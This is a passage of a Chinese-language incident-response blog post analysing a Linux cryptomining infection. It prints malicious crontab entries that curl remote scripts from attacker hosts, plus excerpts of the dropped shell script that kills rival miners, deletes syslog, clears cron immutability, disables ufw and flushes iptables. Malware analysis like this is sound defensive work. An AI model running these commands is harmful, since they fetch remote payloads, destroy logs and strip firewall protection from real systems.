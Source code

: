 ![2020-12-13-02.jpg](http://kafroc.github.io/assets/img/2020-12-13-02.jpg)

在排查进程，网络时都未发现异常。在排查定时任务crontab时，发现三行异常的定时任务
```
59 * * * * root (curl -fsSL http://t.amynx.com/ ......
28 * * * * root (curl -fsSL http://t.jdjdcjq.top/ ......
13 * * * * root ps aux|grep lplp.ackng.com ......
```

我把恶意脚本获取到本地，原来这是一个shell脚本，接下来分析看看这个脚本干什么

### 恶意脚本分析
恶意脚本脚本共439行代码，前面300行都是删除文件和杀死进程，我简单摘要几段代码
```
#/bin/bash
processes(){
	killme() {
	  killall -9 chron-34e2fg;ps wx|awk '/34e|r\/v3|moy5|defunct/' | awk '{print $1}' | xargs kill -9 & > /dev/null &
	}

	killa() {
	what=$1;ps auxw|awk "/$what/" |awk '!/awk/' | awk '{print $2}'|xargs kill -9&>/dev/null&
	}

	killa 34e2fg
	killme

	killall \.Historys
	killall \.sshd
	killall neptune
	killall xm64
	killall xm32
	killall xmrig
	killall \.xmrig
	killall suppoieup

    # sshd
	ps ax | grep sshd | grep -v grep | awk '{print $1}' > /tmp/ssdpid
	while read sshdpid
	do
		if [ $(echo  $(ps -p $sshdpid -o %cpu | grep -v \%CPU) | sed -e 's/\.[0-9]*//g')  -ge 60 ]
		then
			kill $sshdpid
		fi
	done < /tmp/ssdpid
	rm -f /tmp/ssdpid

# Removing miners by known path IOC
files(){
    ulimit -n 65535
    rm -rf /var/log/syslog
    chattr -iua /tmp/
    chattr -iua /var/tmp/
    chattr -R -i /var/spool/cron
    chattr -i /etc/crontab
    ufw disable
    iptables -F
    echo "nope" >/tmp/log_rot
    sudo sysctl kernel.nmi_watchdog=0
    echo '0' >/proc/sys/kernel/nmi_watchdog
    echo 'kernel.nmi_watchdog=0' >>/etc/sysctl.conf
	rm /tmp/.cron
	rm /tmp/.main
```